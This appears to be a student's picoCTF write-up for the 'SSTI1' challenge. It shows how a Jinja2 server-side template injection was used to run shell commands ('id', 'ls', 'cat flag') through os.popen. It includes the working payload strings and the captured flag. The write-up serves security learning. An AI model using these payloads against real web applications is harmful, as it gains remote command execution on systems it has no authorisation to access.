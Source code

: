 # 1. SSTI1

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

## Solution:

<img width="575" height="444" alt="62750a98cf16788403fc63d5_SSTI20Chart" src="https://github.com/user-attachments/assets/77d6a569-3b66-4144-9e29-a13059c6aa69" />

used these payload commands to know it is jinja2.
```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
<img width="1657" height="520" alt="image" src="https://github.com/user-attachments/assets/57ae47cc-7efe-489b-a2ea-4803a7f467ea" />
got to know that we are running as a root user

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

<img width="1744" height="498" alt="image" src="https://github.com/user-attachments/assets/be08409f-34bc-4a0a-b2db-2ed8769e4fb5" />
listing out the files

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

<img width="1906" height="371" alt="image" src="https://github.com/user-attachments/assets/08ad9400-baae-4e99-b79b-b483b78b1267" />
cat the flag file

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}
```

## Concepts learnt:
- what is ssti
- different paylaods
- jinja2 paylaods

## Resources
https://onsecurity.io/article/server-side-template-injection-with-jinja2/
https://www.we45.com/post/server-side-template-injection-a-crash-course

